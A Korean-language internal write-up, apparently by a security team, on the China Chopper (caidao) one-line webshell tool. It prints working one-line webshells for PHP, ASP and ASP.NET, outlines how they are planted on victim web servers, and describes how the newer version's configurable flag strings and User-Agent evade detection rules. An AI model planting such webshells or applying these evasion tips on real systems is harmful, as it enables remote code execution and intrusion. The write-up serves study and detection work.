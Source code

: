 # Caidao-20160620 툴을 이용한 One Line WebShell


| 작성자       | 강하늘 사원   |
| --------- | ---------------- |
| **작성 일자** | **2024년 4월 18일
** |
| **수정 일자** |                  |
| **비고**    |                  |

</br>

## ( 1 ) One Line WebShell
   
      PHP     :    <?php @eval($_POST['koromoon']);?>
      ASP     :    <%eval request("koromoon")%>
      ASP.NET :    <%@ Page Language="Jscript"%><%eval(Request.Item["koromoon"],"unsafe");%>

피해자 웹서버에 한 줄짜리 코드를 삽입한 후 공격자가 실행하고자 하는 코드를 전송하여 결과값을 얻는 웹쉘을 말함.
웹쉘 파일을 업로드하거나 특정 페이지에 실행 가능한 코드 한 줄을 삽입하면 됨.
삽입된 코드는 탐지하기 매우 어려움. 더군다나 우회 기법을 사용하면 더더욱 탐지하기 어려움.

## ( 2 ) One Line WebShell 공격 순서도

![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/164521627/cbda7b72-37fc-409d-8757-98ad964d64e9)

< 공격 순서도 >


## ( 3 ) caidao 툴

![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/164521627/0c4fcfe4-b145-4133-b83f-e9a8bd7a1cbf)

< caidao 메인 화면 >

![image](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/164521627/4f50bd80-83d6-441e-958a-082ea3a1169e)

< caidao 구성 파일 >

사용법이 간단한 POST 기반 One Line WebShell 툴로 중국 툴임.
최신 버전(20160620)에는 기존 버전과 다르게 설정 파일(caidao.conf)을 추가하여 실행 코드에 대한 우회 기법을 추가 및 수정 가능하며 Response 에 따른 고유의 FLAG 문자열을 바꿀 수 있음.
또한, HTTP 헤더의 User-Aget 필드값도 수정 가능함.

참고로 기존 FLAG 문자열은 "->|" 와 "|<-" 로 설정 파일이 없는 관계로 수정 불가능함.
그래서 해당 문자열을 가지고 보안장비 탐지룰를 등록하여 탐지하도록 할 수 있었으나 최신 버전에서는 공격자가 원하는 FLAG 문자열로 바꿀 수 있음.
(최신 버전 디폴트 FLAG 문자열 : X@Y, 3 글자 선에서 원하는 문자열로 변경 가능함)

caidao 관련 파일들 중에 몇 가지 파일의 용도는 아래와 같음.
caidao.conf - 설정 파일
CCC 폴더 - 플러그인 폴더


[koromoonlink]: https://koromoon.blogspot.com/2020/02/caidao-20160620-one-line-webshell.html "Go koromoon"